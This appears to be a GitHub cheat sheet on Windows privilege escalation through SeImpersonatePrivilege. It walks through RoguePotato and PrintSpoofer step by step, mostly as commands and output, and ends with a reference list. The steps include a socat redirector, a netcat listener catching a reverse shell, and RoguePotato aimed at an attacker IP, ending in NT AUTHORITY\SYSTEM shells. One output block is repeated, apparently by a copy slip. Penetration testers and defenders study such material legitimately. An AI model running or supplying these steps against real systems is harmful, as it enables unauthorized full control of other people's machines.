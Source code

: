 # Living off the Land

## 01 - Detect

Check if `SeImpersonatePrivilege` or `SeAssignPrimaryTokenPrivilege` is enabled.

```
C:\Windows\system32> whoami
win-qba94kb3iof\admin

C:\Windows\system32> whoami /priv
PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeAssignPrimaryTokenPrivilege             Replace a process level token                                      Disabled
..[truncated]..
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
..[truncated]..
```

## 02 - Exploit

### 2.1 - RoguePotato

Start with a redirector using `socat`.

```
$ sudo socat tcp-listen:135,reuseaddr,fork tcp:<target_IP>:9999

C:\Windows\system32> whoami
win-qba94kb3iof\admin

C:\Windows\system32> whoami /priv
PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeAssignPrimaryTokenPrivilege             Replace a process level token                                      Disabled
..[truncated]..
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
..[truncated]..
```

Start a shell handler before running `PsExec64.exe` as in `NT AUTHORITY\LOCAL SERVICE` to receive a callback shell.

```
C:\Windows\system32> cd c:\Tools

C:\Tools> PsExec64.exe -i -u "nt authority\local service" c:\Tools\shell.exe

$ sudo nc -lnvp 53
C:\Windows\system32> whoami
nt authority\local service

C:\Windows\system32> cd c:\Tools

C:\Tools> RoguePotato.exe -r <attacker_IP> -e shell.exe -l 9999
[+] Starting RoguePotato...
[*] Creating Rogue OXID resolver thread
[*] Creating Pipe Server thread..
[*] Creating TriggerDCOM thread...
[*] Listening on pipe \\.\pipe\RoguePotato\pipe\epmapper, waiting for client to connect
[*] Starting RogueOxidResolver RPC Server listening on port 9999 ...
[*] Calling CoGetInstanceFromIStorage with CLSID:{4991d34b-80a1-4291-83b6-3328366b9097}
[*] IStoragetrigger written:106 bytes
[*] SecurityCallback RPC call
[*] ServerAlive2 RPC Call
[*] SecurityCallback RPC call
[*] ResolveOxid2 RPC call, this is for us!
[*] ResolveOxid2: returned endpoint binding information = ncacn_np:localhost/pipe/RoguePotato[\pipe\epmapper]
[*] Client connected!
[+] Got SYSTEM Token!!!
[*] Token has SE_ASSIGN_PRIMARY_NAME, using CreateProcessAsUser() for launching: shell.exe
[+] RoguePotato gave you the SYSTEM powerz :D

$ sudo nc -lnvp 53
C:\Tools> whoami
nt authority\system
```

### 2.2 - PrintSpoofer

```
C:\Tools> PsExec64.exe -i -u "nt authority\local service" c:\Tools\shell.exe

$ sudo nc -lnvp 53
C:\Windows\system32> whoami
nt authority\local service

C:\Windows\system32> whoami /priv

C:\Windows\system32> cd c:\Tools

C:\Tools> PrintSpoofer.exe -c shell.exe -i
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK

$ sudo nc -lnvp 53
C:\Windows\system32> whoami
nt authority\system
```

---
## References

- [itm4n: PrinterSpoofer](https://github.com/itm4n/PrintSpoofer)

- [breenmachine: RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG)

- [Hacktricks: Abusing Tokens](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens)

- [Hacktricks: RoguePotato, PrintSpoofer, SharpEfsPotato, GodPotato](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/roguepotato-and-printspoofer)

- [Hacking Articles: Windows Privilege Escalation SeImpersonatePrivilege](https://www.hackingarticles.in/windows-privilege-escalation-seimpersonateprivilege/)

- [itm4n: PrintSpoofer - Abusing Impersonation Privileges on Windows 10 and Server 2019](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)

- [Juggernaut-Sec: SeImpersonatePrivilege – Windows Privilege Escalation](https://juggernaut-sec.com/seimpersonateprivilege/)

- [ohpe: Juicy Potato CLSID Enumeration](https://ohpe.it/juicy-potato/CLSID/)

- [Jlajara: Potatoes Windows Privilege Escalation](https://jlajara.gitlab.io/Potatoes_Windows_Privesc)

- [Abusing SeImpersonatePrivilege On Users to Become System](https://shreyapohekar.com/blogs/abusing-seimpersonateprivilege-on-users-to-become-system/)